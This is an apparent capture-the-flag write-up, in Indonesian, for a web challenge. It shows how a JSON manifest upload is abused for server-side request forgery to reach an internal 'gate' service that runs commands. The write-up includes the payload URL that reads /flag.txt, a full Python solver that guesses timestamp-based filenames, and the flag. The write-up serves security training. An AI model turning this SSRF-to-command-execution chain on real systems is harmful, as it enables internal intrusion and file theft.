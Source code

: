 ## come-gate-me

**Difficulty:** Easy

**Author:** xixixiix

**URL:** [http://ctf.noctralupra.space:10313/](http://ctf.noctralupra.space:10313/)

### Description

ini flagnya dynamic, jadi ya testing aja.. ga ada brute force apalgi jadi dukun.. logika aja..

### Solution

![alt text](image.png)

Ketika mengakses website, diberikan tampilan untuk mengupload suatu file dengan tambahan hint bahwa file akan disimpan dengan nama yang unik dan petunjuk akan muncul di tempat yang tidak terduga. Diketahui bahwa file yang diterima oleh website adalah file json.

```json
{
  "test": "hello"
}
```

![alt text](image-1.png)

Ketika saya mencoba melakukan upload dengan payload tersebut, web menampilkan error `Bad manifest. Expect: {"source": "http://...", "ext": "txt"}`. Dengan begitu, saya tau bahwa ini adalah model dari tantangan SSRF yang melakukan fetch dari url yang di-upload oleh user melalui file json.

![alt text](image-3.png)

Untuk menggali informasi lebih lanjut, saya mengakses robots.txt dan ditemukan beberapa endpoint menarik. 

![alt text](image-2.png)

Satu - satunya endpoint yang dapat diakses adalah /gate-hint.txt dan memberikan bahwa terdapat service internal dengan host `gate` pada port `8081` yang bisa melakukan RCE melalui `run?cmd=&file=/flag.txt`

```json
{
  "source": "http://gate:8081/run?cmd=cat&file=/flag.txt",
  "ext": "txt"
}
```

![alt text](image-4.png)

Dengan begitu, payload pada file json yang akan diupload adalah seperti tersebut. Ketika diupload, web memberi response bahwa harus menebak output fetch dari payload dan hasil fetch tersebut dapat diakses dari endpoint /get.php?name=[namafile.txt]

![alt text](image-5.png)

Pada source ditemukan hint dari comment yang mengatakan bahwa file disimpan dengan formar `cg_YYYYMMDD_HHMM.ext`

Karena hal ini harus dilakukan secara presisi dengan timing melakukan upload file json maka saya membuat solver seperti berikut ini:

```python
import requests
import json
from datetime import datetime, timezone
import time

url = "http://ctf.noctralupra.space:10313"
upload = "/manifest_upload.php"
download = "/get.php"

ssrf = "http://gate:8081/run?cmd=cat&file=/flag.txt"
EXT = "txt"

def utc_minute_stamp(dt=None):
    if dt is None:
        dt = datetime.now(timezone.utc)
    return dt.strftime("%Y%m%d_%H%M")

def build_filename(utc_min, ext):
    return f"cg_{utc_min}.{ext}"

def upload_manifest():
    manifest = {"source": ssrf, "ext": EXT}
    manifest_str = json.dumps(manifest, separators=(",", ":"))

    t0 = datetime.now(timezone.utc)
    utc_min = utc_minute_stamp(t0)

    files = {"manifest": ("test.json", manifest_str, "application/json")}

    r = requests.post(
        url + upload,
        files=files,
        headers={
            "Origin": "null",
            "Upgrade-Insecure-Requests": "1",
        },
        timeout=10,
    )
    r.raise_for_status()
    return r.text, utc_min

def try_download(utc_min_guess, ext):
    name = build_filename(utc_min_guess, ext)
    params = {"name": name}

    r = requests.get(
        url + download,
        params=params,
        headers={"Upgrade-Insecure-Requests": "1"},
        timeout=10,
    )
    if r.status_code == 200 and r.content:
        return True, r.content, name
    return False, r.text, name

def main():
    txt, utc_min = upload_manifest()
    ok, body, fname = try_download(utc_min, EXT)
    print(f"download: {fname} : {'OK' if ok else 'FAIL'}")

    if not ok:
        next_min = utc_minute_stamp(datetime.now(timezone.utc))
        if next_min != utc_min:
            print("Minute rolled over; trying current minute.")
            ok, body, fname = try_download(next_min, EXT)
            print(f"download: {fname} : {'OK' if ok else 'FAIL'}")

    if not ok:
        time.sleep(1)
        cur_min = utc_minute_stamp(datetime.now(timezone.utc))
        ok, body, fname = try_download(cur_min, EXT)
        print(f"download: {fname} : {'OK' if ok else 'FAIL'}")

    if ok:
        try:
            print(body.decode(errors="replace"))
        except Exception:
            print(body)
    else:
        print("failed.")

if __name__ == "__main__":
    main()
```

Dengan begitu dapat dilakukan otomasi untuk: upload manifest (SSRF), tebak nama file berdasarkan waktu, dan download. Dan output kode berhasil menampilkan flagnya.

![alt text](image-6.png)

### Flag

NCLPS1{ssrf_to_gate_then_predict_the_filename}
